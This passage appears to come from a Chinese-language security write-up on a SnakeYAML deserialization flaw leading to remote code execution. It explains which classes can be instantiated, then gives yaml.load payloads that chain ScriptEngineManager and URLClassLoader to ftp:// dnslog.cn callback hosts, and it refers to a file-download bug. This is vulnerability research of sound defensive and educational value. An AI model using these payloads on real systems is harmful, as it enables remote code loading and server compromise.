 snakeyaml最后通过Class.forName对class进行反射调用

我们知道如果是调用class类，最终执行为 Object bean = Class.forName(beanName).newInstance(); 。 问题来了，如果此处想要成功实例化并且RCE的话，那么必须满足几个条件：

```
1、类的构造方法为Public
2、类的构造方法无参
3、调用目标字符串的参数为：支持字符串，布尔类型，长整型，浮点型，整型
4、调用目标方法除了为Public，无参，还需要具有执行代码/命令的能力
```

有的朋友一开始会想到调用 java.lang.Runtime.getRuntime().exec("") 。但经 过上面条件的梳理，发现该类不满足条件，因为他的构造方法是private。

在组件检测时发现了本项目使用了 SnakeYaml 。经过学习我们知道，该组件只要可以 控制 yaml.load() 即可触发反序列漏洞。 经过探索学习， SnakeYaml的yaml.load() 是满足以上条件的

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager
[!!java.net.URLClassLoader [[!!java.net.URL ["ftp://cec270.dnslog.cn"]]]]')

j0ijep.dnslog.cn
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager
[!!java.net.URLClassLoader [[!!java.net.URL ["ftp://j0ijep.dnslog.cn"]]]]')
```

![image-20230615155447838](images/34.png)

至于怎么去执行的定时任务，需要对第三方组件很熟悉才，可以参考这篇

https://www.cnblogs.com/shaoqiblog/p/17305315.html

这篇文章还提到了一个任意文件下载，这个任意文件下载通过定时任务执行代码来覆盖掉本身的profile，然后在/common/download/resource截取后下载


